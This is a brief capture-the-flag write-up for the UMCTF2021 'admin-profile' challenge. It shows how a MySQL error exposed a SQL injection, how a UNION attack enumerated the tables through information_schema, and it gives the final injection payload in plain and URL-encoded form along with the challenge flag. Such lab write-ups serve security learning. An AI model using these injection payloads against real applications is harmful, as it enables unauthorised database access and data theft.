

# UMCTF2021 - admin-profile

- Write-Up Author: bluebear \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{un10n_bas3_1nj3ct10n}

## **Question:**
admin-profile

## Write up

---

* When you type single quotation mark, you will get the MYSQL error.
* Determine the columns/table information under SQL injection UNION attack, such as
```
SELECT table_name FROM information_schema.tables
```
* Remember to add special character **#** to end of SQL statement.
* Final payload
```
admin' UNION SELECT id,fl4g,3 FROM `f1ag`#
```
After URL encoded,
```
admin%27%20UNION%20SELECT%20id,fl4g,3%20FROM%20`f1ag`%23
```
* you will get the flag **MOCSCTF{un10n_bas3_1nj3ct10n}**
